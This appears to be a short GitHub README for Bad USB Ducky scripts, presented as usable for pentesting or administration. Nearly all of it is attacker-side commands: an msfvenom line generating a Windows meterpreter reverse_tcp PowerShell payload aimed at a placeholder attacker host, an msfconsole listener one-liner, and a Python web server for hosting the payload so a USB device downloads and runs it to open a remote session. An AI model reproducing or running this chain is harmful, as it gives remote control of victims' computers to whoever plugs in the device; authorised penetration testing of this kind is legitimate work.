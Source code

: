 # Various Ducky scripts for Bad USBs
Can be used for pentesting or administrative tasks.
# On The Attacker's Machine
Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
Start start python http server<br/>
python3 -m http.server 80<br/>
Ducky script will download and execute powershell script opening meterpreter session<br/>



